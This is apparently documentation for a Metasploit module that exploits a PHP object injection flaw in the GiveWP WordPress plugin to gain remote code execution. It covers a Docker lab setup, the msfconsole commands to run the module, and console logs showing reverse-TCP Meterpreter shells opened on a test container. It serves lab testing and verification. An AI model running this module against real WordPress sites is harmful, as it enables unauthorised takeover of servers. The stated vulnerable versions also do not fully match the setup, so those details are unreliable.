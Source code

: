 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object leading to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Create the following `docker-compose.yml` file to set up a vulnerable WordPress environment:

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```
1. Run Docker: `docker compose up`
2. Access the WordPress instance at `http://127.0.0.1` and complete the installation process.
3. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.16.1](https://downloads.wordpress.org/plugin/give.3.16.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker compose cp give wordpress:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

4. **Create a Donation Form**:
- Navigate to the "Forms" section within the GiveWP plugin and click on "Add Form."
- Select any form.
- Configure the form as needed, then publish it.

*Note: Depending on the vulnerability you want to test, using an older version like 3.14.1 may also be applicable.*


## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.5.3)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected GiveWP Plugin version: 3.14.1
[+] Vulnerable to both CVE-2024-5932 and CVE-2024-8353 (bypass).
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 45
[*] Using Form ID: 45 for exploitation.
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 5 opened (192.168.1.36:1337 -> 172.18.0.3:45656) at 2024-10-02 19:51:31 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### GiveWP Plugin version: 3.16.1 (Dockerized WordPress Version 6.5.3)

```bash
msf exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected GiveWP Plugin version: 3.16.1
[+] Vulnerable to CVE-2024-8353 (bypass).
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 38
[*] Using Form ID: 38 for exploitation.
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 4 opened (192.168.1.36:1337 -> 172.18.0.3:49380) at 2024-10-02 19:49:39 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
